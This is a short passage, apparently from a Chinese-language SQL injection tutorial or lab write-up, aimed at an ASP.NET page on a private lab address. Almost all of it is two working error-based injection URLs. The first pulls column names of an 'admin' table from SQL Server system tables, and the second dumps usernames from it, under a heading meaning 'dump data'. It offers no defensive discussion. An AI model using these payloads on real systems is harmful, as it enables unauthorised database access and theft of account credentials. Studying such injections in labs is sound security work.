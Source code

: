 ```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--

```

![mysql](./img/1.4.3.png)

爆数据


```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 username from admin);--

```

![mysql](./img/1.4.5.png)
